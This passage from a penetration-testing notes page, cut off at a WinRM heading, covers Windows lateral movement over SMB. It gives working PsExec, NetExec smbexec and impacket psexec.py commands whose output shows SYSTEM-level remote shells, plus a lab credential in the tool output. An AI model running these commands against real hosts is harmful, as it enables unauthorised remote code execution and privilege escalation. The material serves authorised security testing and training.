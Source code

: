 1. Write `psexesvc.exe` to the `ADMIN$` share which maps to the `C:\Windows` directory
2. Create a service from this binary that can take commands
3. Run any incoming authenticated commands through this service

It can target any host where the user has local administrator privileges to be able to do the above actions. Using the official `PsExec.exe` a session can be started as follows:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> .\PsExec64.exe -i \\$IP -u $DOMAIN\$USERNAME -p $PASSWORD powershell
</strong>
PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

<strong>PS C:\Windows\system32> whoami
</strong>$DOMAIN\$USERNAME
</code></pre>

[NetExec](https://github.com/Pennyw0rth/NetExec) implements a similar idea called `smbexec` which also drops an executable on the machine and executes it remotely. This also instantly gives you the `nt authority\system` permissions:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ nxc smb $IP -u $USERNAME -p $PASSWORD --exec-method smbexec -x 'whoami'
</strong>SMB         192.168.198.73  445    FILES04          [*] Windows 10.0 Build 20348 x64 (name:FILES04) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.198.73  445    FILES04          [+] corp.com\jen:Nexus123! (Pwn3d!)
SMB         192.168.198.73  445    FILES04          [+] Executed command via smbexec
<strong>SMB         192.168.198.73  445    FILES04          nt authority\system
</strong></code></pre>

This implementation is not exactly the same however, an alternative is [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py) from impacket to get an interactive shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ psexec.py '$USERNAME:$PASSWORD@$IP'
</strong>Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on $IP.....
[*] Found writable share ADMIN$
[*] Uploading file YUqMJypj.exe
[*] Opening SVCManager on $IP.....
[*] Creating service yddV on $IP.....
[*] Starting service yddV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

<strong>C:\Windows\system32> whoami
</strong>nt authority\system
</code></pre>

### WinRM (5985)


[$IP]: PS C:\> whoami